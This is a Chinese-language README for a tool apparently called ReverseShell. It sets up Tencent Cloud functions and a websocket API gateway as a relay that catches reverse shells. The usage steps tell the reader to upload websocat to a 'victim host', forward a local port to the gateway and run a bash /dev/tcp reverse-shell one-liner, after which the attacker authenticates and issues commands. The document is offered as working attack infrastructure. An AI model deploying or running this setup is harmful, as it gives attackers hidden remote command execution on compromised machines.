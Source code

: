 # ReverseShell
通过云函数的 websocket API 网关实现接收反弹 Shell 的功能。

## 项目配置

### 数据库配置
本项目需要一个允许外部连接的 MySQL 数据库。数据库配置语句如下：
```sql
create database SCF;
use SCF;
create table Connections (
    connectionID varchar(128) NOT NULL,
    Date datetime,
    is_user tinyint
)
```

修改 src 文件夹内所有文件中的如下变量
```
db_host = 数据库 host
db_port = 数据库端口
db_user = 数据库用户
db_pass = 数据库密码

push_back_host = 等后续配置 API 网关后填写
```

### 函数配置
1. 参照 [HTTP 代理配置](https://github.com/shimmeris/SCFProxy/tree/main/HTTP) 新建三个自定义函数，分别命名为 register, forward, delete。
2. 进入 [API 网关配置](https://console.cloud.tencent.com/apigateway/service)，新建如下配置服务

![服务](img/service.png)

3. 新建 API，前端类型选择 WS，其余默认，进入下一步
4. 开启设置注册函数、清理函数。后端类型，函数，后端超时时间分别配置为如下：

![函数配置](img/function_config.png)

5. 点击立即完成，发布服务
6. 点击生成的 api，进入信息展示页面获取如下信息，将推送地址填入文件中的 `push_back_host` 变量。

![信息](img/info.jpg)

7. 修改 transmission.py 中的 `PASSWORD` 变量，该变量将用于客户端连接 ws 后将连接认证为用户。
7. 分别复制三个文件的内容到对应的云函数中并部署。

## 使用方式
需要借助 [websocat](https://github.com/vi/websocat)。

1. 上传 websocat（或远程下载）到受害主机
2. 执行 `websocat -E --text tcp-l:127.0.0.1:12345 ws://apigatway` 转发端口
3. 反弹 shell 到本地端口 `bash -i >& /dev/tcp/127.0.0.1/12345 0>&1`（2、3 两步也可利用 & 合并成一条命令）

![反弹 shell](img/reverse_shell.jpg)

4. 攻击者连接 ws://apigate，输入 auth PASSWORD 认证为用户，之后正常发送命令即可。
![执行命令](img/cmd.jpg)

ws 连接后可执行的命令：
```shell
auth PASSWORD 将当前连接认证为用户，只有用户能接收未认证连接发送的信息
close 关闭当前连接
closeall 关闭目前存在的所有连接
```

